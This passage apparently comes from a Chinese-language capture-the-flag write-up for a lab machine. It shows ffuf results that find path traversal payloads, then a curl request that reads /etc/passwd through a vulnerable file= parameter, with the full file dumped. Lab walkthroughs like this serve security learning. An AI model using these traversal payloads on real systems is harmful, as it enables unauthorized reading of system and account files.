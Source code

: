 ```bash
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 1582, Words: 15, Lines: 30, Duration: 6ms]
../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 1582, Words: 15, Lines: 30, Duration: 8ms]
../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 1582, Words: 15, Lines: 30, Duration: 8ms]
../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 1582, Words: 15, Lines: 30, Duration: 12ms]
../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 1582, Words: 15, Lines: 30, Duration: 14ms]
../../../../../../../../../../../../../etc/group [Status: 200, Size: 727, Words: 1, Lines: 56, Duration: 1ms]
../../../../../../../../../../../../../../../../../../etc/group [Status: 200, Size: 727, Words: 1, Lines: 56, Duration: 4ms]
../../../../../../../../../../../../../../../../etc/group [Status: 200, Size: 727, Words: 1, Lines: 56, Duration: 4ms]
../../../../../../../../../../../../../../etc/group [Status: 200, Size: 727, Words: 1, Lines: 56, Duration: 5ms]

```
原来这个目录位于很深处，所以需要很多个 `../`
```bash
┌──(root㉿kali)-[~/Desktop/hmv/blackwindow]
└─# curl http://192.168.56.23/company/started.php?file=../../../../../../../../../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
viper:x:1001:1001:Viper,,,:/home/viper:/bin/bash
_rpc:x:107:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:108:65534::/var/lib/nfs:/usr/sbin/nologin

```
